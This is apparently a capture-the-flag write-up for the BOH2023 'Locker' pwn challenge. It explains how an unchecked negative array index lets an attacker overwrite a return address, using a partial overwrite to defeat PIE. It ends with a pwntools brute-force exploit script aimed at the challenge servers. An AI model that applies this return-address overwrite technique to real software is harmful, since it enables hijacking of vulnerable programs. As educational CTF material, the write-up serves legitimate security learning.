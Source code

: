 ```yaml
---
title : "Locker [Pwn]"
categories: BOH2023
---
```


Subtle integer underflow to hijack control flow. 

[locker.tar](/files/boh2023/locker.tar){: .btn .btn--info}

# Going through the program

This program is yet another menu program.

1. Read locker: cannot use... I wonder why... (legit)
2. Write locker: choose a lock number (1 - 8) and write into the key and value.
3. Exit: exits :)

The code also has an unused `win` function:

```c
void win() {
    system("cat ./flag.txt");
}
```

There are 8 locks (2 bytes each) in an array (8 * 2 = 16 bytes), which are all initialized to 0.

```c
#define LOCKER_NUM 8

size_t n = 32;

typedef struct {
    char key;
    char value;
} locker;

...

int main(void) {
    setup();
    locker lockers[LOCKER_NUM];
    memset(lockers, 0, sizeof(lockers));
```

We can read (does nothing) and write to locks for an arbitrary number of times. In the end, we can provide feedback...

```c
    char feedback[32];
    puts("Feedback?");
    scanf("%s", feedback);
    return 0;
}
```

Wait, buffer overflow? **WRONG**

{% include image.html url="/assets/images/boh2023/locker_checksec.png" description="bamboozled" %}

There is stack canary, so no luck :P

# Solution

After staring at this code for long enough + trading 30% of my sanity to it, I finally saw that

```c
void write_locker(locker *lockers) {
    puts("\n\nWrite Locker");
    puts("===========");
    int number;
    printf("Locker number [1-8]: ");
    scanf("%d", &number);
    if (number > LOCKER_NUM) {
        puts("Under maintenance");
        return;
    }
    printf("Key  : ");
    scanf("%hhd", &lockers[number - 1].key);
    printf("Value: ");
    scanf("%hhd", &lockers[number - 1].value);
}
```

the index is a signed integer, and only `number > LOCKER_NUM` is checked, meaning negative numbers are accepted.

What does this imply? When indexing an array, it is actually performing pointer arithmetic on the pointer to the head of the array.

```
    +-------+--------+--------+
... |       | arr[0] | arr[1] | ...
    +-------+--------+--------+
        
arr+? : -1       0        1
```

Note that pointer arithmetic changes the address in units of the type size, i.e. the actual address value changes by, for example, 4 (when +/- 1) if `arr` is an array of `int`s (4 bytes).

The key is to realize the stack layout inside `write_locker`. Note that the stack is growing upwards here (bottom = higher address value).

```
    <-- 4 bytes --x-- 4 bytes -->
    +-------------+-------------+
    |             |    number   |
    +---------------------------+
    |       stack canary        |
    +---------------------------+
    |       base pointer        |
    +---------------------------+
    |      return address       |
    +---------------------------+
    |                           |
    +-------------+-------------+
    |   option    |             |
    +-------------+-------------+
    |          lockers          |
    +-------------+-------------+
    |          lockers          |
    +-------------+-------------+
                 ...
```

You can get this by using disassemblers or just GDB and deduce it yourself.

{% include image.html url="/assets/images/boh2023/locker_stack_layout.png" description="Using Ghidra (after renaming variables)" %}

{% include image.html url="/assets/images/boh2023/locker_stack_layout_2.png" description="Using Ghidra (after renaming variables)" %}

The blank part beside option is to pad the stack to a quadword. Not sure about the 8 bytes of padding above that though, perhaps just some stack alignment stuff. I found about this 8-byte when testing out the exploit and examining through GDB.

Our goal now is to change the bytes of the return address to the address of `win`, then we win! We can do

```bash
objdump -d locker | grep win
0000000000001229 <win>:
    1261: 74 05                        	je	0x1268 <win+0x3f>
```

or search it up on Ghidra. However, we need to notice that PIE is enabled, which means that the program might be loaded at a different base address than 0x400000. Then what bytes should we write, and what values to write to? One useful fact is that the base address will be aligned to page size (usually 0x1000 bytes), meaning that the base address will always be a multiple of 0x1000.

With this knowledge, we know that the address of `win` is always 0x....229. Therefore, we can write 0x29 to the LSB of the return address, and some 0xX2 to the next byte, and keep trying until the base address matches what we put.

```
    <-- 4 bytes --x-- 4 bytes -->        <- 2 ->
    +-------------+-------------+        +---------------------------+
    |             |    number   |        |                           |
    +-------------+-------------+        +---------------------------+
    |       stack canary        |        |                           |
    +---------------------------+        +---------------------------+
    |       base pointer        |        |                           |
    +---------------------------+        +------+------+------+------+
    |      return address       |        |  -9  |  -10 | -11  | -12  |
    +---------------------------+        +------+------+------+------+
    |                           |        |  -5  |  -6  |  -7  |  -8  |
    +-------------+-------------+        +------+------+------+------+
    |   option    |             |        |  -1  |  -2  |  -3  |  -4  |
    +-------------+-------------+        +------+------+------+------+
    |          lockers          |        |                    |   0  |
    +-------------+-------------+        +-------------+------+------+
    |          lockers          |        |                           |
    +-------------+-------------+        +-------------+-------------+
                 ...
```

From this, we see that we need to index `lockers[-12]`, so `number` should be -11.

# Final Script
```python
from pwn import *

DEBUG = False
context.log_level = "error"

ind = str(-11 & 0xffffffff).encode()

while True:
    conn = remote("157.245.156.90", 5000) if DEBUG else remote("54.158.139.58", 1235)

    conn.recvuntil(b"Exit")
    conn.recvline()

    conn.recvuntil(b"> ")
    conn.sendline(b"2")
    conn.sendlineafter(b": ", ind)

    b = 0x52

    # win = ...229

    conn.sendlineafter(b": ", str(0x29+5).encode())
    conn.sendlineafter(b": ", str(b).encode())

    try:
        line = conn.recvline()
        if b"ABOH" in line:
            print(line)
            conn.close()
            break
    except:
        conn.close()


```
